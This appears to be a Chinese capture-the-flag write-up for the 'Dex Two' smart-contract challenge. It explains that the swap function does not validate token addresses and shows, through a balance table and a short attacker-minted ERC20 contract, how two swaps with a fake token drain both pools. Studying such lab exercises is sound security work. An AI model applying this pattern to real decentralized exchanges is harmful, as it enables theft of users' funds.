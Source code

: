 
### 分析

该合约与` Dex `不同之处：

```solidity
// Dex
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
function swap(address from, address to, uint256 amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}

// Dex Two
function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
function swap(address from, address to, uint256 amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint256 swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

` Dex Two `没有检测Token的地址，那就很简单了，我们只需自己搞一个Token，给交易所1个，我们自己3个即可；

|     当前操作     | Dex的Token1 | Dex的Token2 | Dex的EXP | 用户的Token1 | 用户的Token2 | 用户的EXP |
| :--------------: | :---------: | :---------: | :------: | :----------: | :----------: | :-------: |
|                  |     100     |     100     |    1     |      10      |      10      |     3     |
| swap(EXP, T1, 1) |      0      |     100     |    2     |     110      |      10      |     2     |
| swap(EXP, T2, 2) |      0      |      0      |    4     |     110      |     110      |     0     |



### 攻击

自己实现一个ERC20Token：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract Exp is ERC20{
    constructor(address addr) ERC20("ExpToken", "EXP"){
        _mint(msg.sender, 3);
        _mint(addr, 1);
    }
}
```
